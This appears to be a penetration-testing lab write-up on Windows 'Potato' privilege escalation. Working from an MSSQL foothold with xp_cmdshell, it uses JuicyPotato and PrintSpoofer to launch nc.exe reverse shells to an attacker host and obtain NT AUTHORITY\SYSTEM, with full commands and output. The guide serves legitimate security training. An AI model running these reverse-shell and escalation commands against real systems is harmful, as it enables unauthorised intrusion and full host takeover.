 # Potato Impersonation Attack

- Legitimate programs may utilize another process's token to escalate from Administrator to Local System, which has additional privileges.
- Processes generally do this by making a call to the `WinLogon` process to get a `SYSTEM` token, then executing itself with that token placing it within the SYSTEM space.
- Attackers often abuse this privilege in the "Potato style" privesc - where a service account can `SeImpersonate`, but not obtain full SYSTEM level privileges.
- Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.
- We will often run into this privilege after gaining remote code execution via an application that runs in the context of a service account (for example, uploading a web shell to an ASP.NET web application, achieving remote code execution through a Jenkins installation, or by executing commands through MSSQL queries).
- Whenever we gain access in this way, we should immediately check for this privilege as its presence often offers a quick and easy route to elevated privileges.
- This [paper](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt) is worth reading for further details on token impersonation attacks.

## `JuicyPotato`

### **Connecting with MSSQLClient.py**

- Using the credentials `sql_dev:Str0ng_P@ssw0rd!`, let's first connect to the SQL server instance and confirm our privileges. We can do this using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the `Impacket` toolkit.

```
Kamino@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-authImpacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162)
[!] Press help for extra shell commands
SQL>

```

### **Enabling `xp_cmdshell`**

- Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands.
- We can do this via the `Impacket` MSSSQL shell by typing `enable_xp_cmdshell`.
- Typing `help` displays a few other command options.

```
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install

```

Note: We don't actually have to type `RECONFIGURE` as `Impacket` does this for us.

### **Confirming Access**

- With this access, we can confirm that we are indeed running in the context of a SQL Server service account.

```
SQL> xp_cmdshell whoami

output

--------------------------------------------------------------------------------

nt service\mssql$sqlexpress01
```

### **Checking Account Privileges**

- Next, let's check what privileges the service account has been granted.

```
SQL> xp_cmdshell whoami /priv

output

--------------------------------------------------------------------------------

PRIVILEGES INFORMATION

----------------------
Privilege Name                Description                               State

============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

- The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed.
- This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`.
- [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

### **Escalating Privileges Using `JuicyPotato`**

- To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server.
- Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call.
- Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output

--------------------------------------------------------------------------------

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375

[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
[+] calling 0x000000000088ce08
```

### **Catching SYSTEM Shell**

- This completes successfully, and a shell as `NT AUTHORITY\SYSTEM` is received.

```
Kamino@htb[/htb]$ sudo nc -lnvp 8443listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system

C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

## **`PrintSpoofer` and `RoguePotato`**

- `JuicyPotato` doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.
- However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.
- This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### **Escalating Privileges using `PrintSpoofer`**

- Let's try this out using the `PrintSpoofer` tool.
- We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command.
- Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```

### **Catching Reverse Shell as SYSTEM**

If all goes according to plan, we will have a SYSTEM shell on our netcat listener.

```bash
Kamino@htb[/htb]$ nc -lnvp 8443listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

